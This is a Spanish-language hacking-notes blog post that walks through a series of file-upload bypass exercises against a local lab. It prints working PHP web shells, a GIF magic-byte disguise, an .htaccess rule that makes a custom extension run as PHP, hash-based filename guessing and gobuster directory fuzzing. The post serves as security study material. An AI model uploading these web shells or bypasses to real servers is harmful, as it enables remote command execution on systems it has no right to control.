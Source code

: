 ```yaml
---
layout: single
title: Abuso de subidas de archivos - Hacking Notes
excerpt: "Apuntes de abuso de subidas de archivos (Spanish)"
date: 2025-03-16
classes: wide
header:
  teaser: /img2/obsidian.jpg
  teaser_home_page: true
  icon: /img2/images/Dashboard.jpeg
categories:
  - Hacking Notes
  - Web
tags:
  - File Uploads
---
```



# Índice
---------
1. [[#Upload 1 Subida básica de archivo php]]
2. [[#Upload 3 Saltar restricción del cliente]]
3. [[#Upload 10 Saltar restricción extensión php]]
4. [[#Upload 11 Saltar restricción extensión php]]
5. [[#Upload 12 Saltar restricción extensión php con .htaccess]]
6. [[#Upload 16 Saltar restricción de tamaño]]
7. [[#Upload 17 Saltar restricción de tamaño aumentada]]
8. [[#Upload 21 Saltar restricción de tipo de archivo]]
9.  [[#Upload 23 Saltar restricción de archivos .gif]]
10. [[#Upload 31 Saltar restricción de archivo en md5]]
11. [[#Upload 33 Saltar restricción de archivo en md5]]
12. [[#Upload 35 Saltar restricción de archivo en SHA-1]]
13. [[#Upload 41 Encontrar el directorio donde se sube el archivo con fuzzing]]
14. [[#Upload 51 Saltar restricción de tipo de archivo .jpg con un un ataque de doble extensión]]
15. [[#Upload 58 Mezcla de las restricciones vistas]]

---------------

## Upload 1 | Subida básica de archivo php
```php
<?php
  system("whoami");
?>
```
![](/img/Pasted%20image%2020241210125757.png)

![](/img/Pasted%20image%2020241210125806.png)


--------
## Upload 3 | Saltar restricción del cliente

![](/img/Pasted%20image%2020241210220620.png)

Vemos que la sanetización se está empleando desde el lado del cliente y no del servidor, para saltarla solo tenemos que borrar esa restricción.

----------
## Upload 10 | Saltar restricción extensión php

Podemos probar a cambiar la extensión del archivo con alternativas:
https://book.hacktricks.xyz/pentesting-web/file-upload

![](/img/Pasted%20image%2020241210221830.png)


-----------------
## Upload 11 | Saltar restricción extensión php

Podemos probar a cambiar la extensión del archivo con alternativas:
https://book.hacktricks.xyz/pentesting-web/file-upload

![](/img/Pasted%20image%2020241211115016.png)


------------
## Upload 12 | Saltar restricción extensión php con .htaccess

1. Comprobamos si nos deja mandar un archivo .htaccess
![](/img/Pasted%20image%2020241211120359.png)

```
AddType application/x-httpd-php .test
```

2. Mandamos el archivo php con la extensión que le hemos indicado en el archivo .htaccess
![](/img/Pasted%20image%2020241211120810.png)


------------
## Upload 16 | Saltar restricción de tamaño

![](/img/Pasted%20image%2020241211121816.png)

```
<?php system($_GET[0]);?>
```

----------------
## Upload 17 | Saltar restricción de tamaño aumentada
![](/img/Pasted%20image%2020241211122142.png)

```
<?=`$_GET[0]`?>
```

------------
## Upload 21 | Saltar restricción de tipo de archivo
![](/img/Pasted%20image%2020241211122623.png)


------------
## Upload 23 | Saltar restricción de archivos .gif

Para cambiar el tipo de archivo necesitamos cambiar los primeros bytes del archivo, ya que estos son los que hacen al sistema identificar que tipo de archivo es.

![](/img/Pasted%20image%2020241211123456.png)


1. Cambiamos el contenido del archivo 
```php
GIF8;
<?php
  system("whoami");
?>
```
![](/img/Pasted%20image%2020241211124322.png)

2. Cambiamos el Content-Type
![](/img/Pasted%20image%2020241211124522.png)

------------
## Upload 31 | Saltar restricción de archivo en md5

1. Vemos que al subir el archivo la imagen nos da una pista de que los archivos de la carpeta uploads están en md5 debido a su longitud de 32 caracteres
![](/img/Pasted%20image%2020241211125654.png)

2. Para encontrar el archivo pasamos el nombre a md5
```bash
echo -n "cmd" | md5sum
```
El nombre del archivo una vez subido sería dfff0a7fa1a55c8c1a4966c19f6da452.php

------------
## Upload 33 | Saltar restricción de archivo en md5

1. Vemos que al subir el archivo la imagen nos da una pista de que los archivos de la carpeta uploads están en md5 debido a su longitud de 32 caracteres
![](/img/Pasted%20image%2020241211125654.png)

2. Para encontrar el archivo pasamos el nombre del archivo completo a md5
```
echo -n "cmd.php" | md5sum
```
El nombre del archivo una vez subido sería b0e4bdfca013a84e5f0b9bc9ae028945.php

---------
## Upload 35 | Saltar restricción de archivo en SHA-1

1. Vemos que al subir el archivo la imagen nos da una pista de que los archivos de la carpeta uploads están en SHA-1 debido a su longitud de 40 caracteres
![](/img/Pasted%20image%2020241211132119.png)

2. Para encontrar el archivo pasamos el contenido a SHA-1
```bash
sha1sum cmd.php
```
El nombre del archivo una vez subido sería cf15b7deb46021f4ed2e3bd7b74c6a8856422841.php

-------------
## Upload 41 | Encontrar el directorio donde se sube el archivo con fuzzing
```bash
gobuster dir -u http://localhost:9001/upload41/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20
```
![](/img/Pasted%20image%2020241211133430.png)


----------------
## Upload 51 | Saltar restricción de tipo de archivo .jpg con un un ataque de doble extensión
![](/img/Pasted%20image%2020241211133931.png)

Esto ocurre porque el desarrollador ha implementado una regex para los archivos que contengan la palabra .jpg, pero no para los archivos que acaben en .jpg

---------
## Upload 58 | Mezcla de las restricciones vistas

1. Subimos el archivo .htaccess
![](/img/Pasted%20image%2020241211135133.png)

2. Cambiamos el archivo a un gif
![](/img/Pasted%20image%2020241211135319.png)